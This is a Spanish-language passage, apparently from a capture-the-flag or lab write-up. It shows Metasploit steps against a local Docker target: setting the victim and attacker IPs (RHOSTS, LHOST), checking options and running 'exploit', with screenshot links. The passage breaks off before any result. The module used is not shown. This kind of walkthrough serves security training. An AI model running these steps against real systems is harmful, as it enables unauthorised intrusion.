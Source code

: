 


### Configuramos las opciones
- Tenemos que configurar:
	- RHOSTS: Es la IP de la máquina victima
	- LHOST: La IP de nuestra máquina atacante
	- RPORT: Verificar que está correcto, en este caso, está bien configurado
```
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1           # también se puede configurar set LHOST docker0
```
<p align="center">
    <img src="../img/Pasted_image_20241206215234.png" width="500">
</p>



### Comprobamos las configuraciones
```
show options
```
<p align="center">
    <img src="../img/Pasted_image_20241206215317.png" width="500">
</p>



### Ejecutamos el exploit
```
exploit
```
<p align="center">